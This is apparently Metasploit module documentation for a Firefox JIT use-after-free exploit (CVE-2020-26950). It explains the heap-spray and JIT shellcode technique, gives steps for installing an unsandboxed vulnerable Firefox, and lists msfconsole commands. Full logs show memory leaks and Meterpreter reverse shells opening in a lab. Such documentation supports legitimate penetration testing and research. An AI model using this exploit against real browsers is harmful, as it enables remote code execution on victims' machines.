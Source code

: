 ## Vulnerable Application

This modules exploits CVE-2020-26950, a use after free exploit in Firefox.
The MCallGetProperty opcode can be emitted with unmet assumptions resulting
in an exploitable use-after-free condition.

This exploit uses a somewhat novel technique of spraying ArgumentsData
structures in order to construct primitives. The shellcode is forced into
executable memory via the JIT compiler, and executed by writing to the
JIT region pointer.

This exploit does not contain a sandbox escape, so firefox must be run
with the MOZ_DISABLE_CONTENT_SANDBOX environment variable set, in order
for the shellcode to run successfully.

This vulnerability affects Firefox < 82.0.3, Firefox ESR < 78.4.1, and
Thunderbird < 78.4.2.

**Vulnerable Application Installation Steps**

You can download and run a vulnerable firefox version on Linux with the following commands:
```
wget https://ftp.mozilla.org/pub/firefox/releases/79.0/linux-x86_64/en-US/firefox-79.0.tar.bz2
tar xvf firefox-79.0.tar.bz2
cd firefox
MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox
```

You can also download a vulnerable firefox version for Windows from the following location:
[https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/](https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/)

## Verification Steps

1. Do: `use exploit/multi/browser/firefox_jit_use_after_free
1. Do: `set payload [PAYLOAD]`
1. Do: `set URIPATH /`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `exploit`

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will display details of the exploit during exploitation, which is useful for debugging.

## Scenarios


### Windows 10 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1

Start firefox without a sandbox with the following .bat file:
```
@echo off
set MOZ_DISABLE_CONTENT_SANDBOX=1
"C:\Program Files (x86)\Mozilla Firefox\firefox.exe"
```


```
msf6 > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.3     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.3     firefox_jit_use_after_free - [+] Leaked nursery location: 153391619660
[*] 192.168.56.3     firefox_jit_use_after_free - [+] AD location: 23c12b2b000
[*] 192.168.56.3     firefox_jit_use_after_free - [+] AB Location: 23c26b00000
[*] 192.168.56.3     firefox_jit_use_after_free - [+] Function is at: 2723b4232d40
[*] 192.168.56.3     firefox_jit_use_after_free - [+]   jitinfo: 2723b4239150
[*] 192.168.56.3     firefox_jit_use_after_free - [+]   RX Region: 24ae6f6730
[*] 192.168.56.3     firefox_jit_use_after_free - [+] Shellcode start: 24ae6f6b90
[*] 192.168.56.3     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49737 ) at 2022-02-16 08:23:53 +0000

```

### Ubuntu 18 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1 and DEBUG_EXPLOIT enabled

Start Firefox without a sandbox, e.g:
`MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox`

```
msf6 > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(multi/browser/firefox_jit_use_after_free) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.1     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.1     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Leaked nursery location: 4aee8a4f6d8
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AD location: 7f27fb9cc000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AB Location: 7f27e7200000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Function is at: 10d4c755fac0
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   jitinfo: 10d4c7564150
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   RX Region: 3774356d0e50
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Shellcode start: 3774356d1030
[*] 192.168.56.1     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (3020772 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:34946 ) at 2022-02-16 08:18:11 +0000
```
